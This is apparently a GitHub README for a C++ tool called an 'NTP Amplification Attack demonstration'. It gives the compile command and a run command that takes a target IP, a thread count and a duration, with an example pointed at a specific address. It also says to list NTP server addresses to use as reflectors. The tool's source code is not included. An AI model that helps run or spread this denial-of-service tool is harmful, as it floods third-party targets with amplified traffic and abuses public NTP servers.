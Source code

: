 # NTP-Amplification-Attack-demonstration-C-
NTP Amplification Attack demonstration C++


===
Compiling.
===
    gcc NTPAttack.cpp -o NTPAttack -lstdc++ -lpthread
Running NTPAttack.
===
	sudo ./NTPAttack [target] [threads] [time]

	example: $ sudo ./NTPAttack 132.163.97.1 3 10
ntp.list :
===
Add some ntp server ip addresses in the ntp.list file
